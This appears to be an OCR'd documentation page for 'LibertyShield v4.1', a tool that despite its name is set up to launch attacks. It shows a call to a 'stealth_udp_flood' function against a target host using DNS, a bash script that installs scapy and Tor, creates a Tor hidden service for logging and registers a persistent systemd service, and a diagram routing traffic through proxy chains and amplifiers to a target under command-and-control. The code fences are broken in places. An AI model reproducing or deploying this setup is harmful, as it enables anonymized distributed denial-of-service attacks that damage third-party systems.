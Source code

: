 # LibertyShield v4.1 Documentation

## Enhanced UDP Dispatch
```python
from LibertyShield_v4.1 import UDPEnhancements
UDPEnhancements.stealth_udp_flood("target.com", 80, 60, protocol='dns')



# Start updated system
systemctl start liberty-shield

# Monitor Tor-based logging
torify curl http://your_onion_address/logs



**`Installation_Setup.sh`**  
```bash
#!/bin/bash
# LibertyShield v4.1 Deployment Script

# Install dependencies
apt update
apt install -y python3-pip docker.io tor
pip3 install pycryptodome numpy scapy

# Configure Tor for secure logging
echo "HiddenServiceDir /var/lib/tor/logging_service" >> /etc/tor/torrc
echo "HiddenServicePort 80 127.0.0.1:8080" >> /etc/tor/torrc
systemctl restart tor

# Set up systemd service
cat > /etc/systemd/system/liberty-shield.service <<EOF
[Unit]
Description=LibertyShield v4.1
After=network.target

[Service]
ExecStart=/usr/bin/python3 /opt/liberty/LibertyShield_v4.1.py
WorkingDirectory=/opt/liberty
Restart=always
User=liberty

[Install]
WantedBy=multi-user.target
EOF

# Create secure user
useradd -m -s /bin/false liberty
chown -R liberty:liberty /opt/liberty

# Enable service
systemctl daemon-reload
systemctl enable liberty-shield



[Client] --> [Proxy Chain] --> [Amplifiers] --> [Target]
                ^
                |
           [Command & Control]
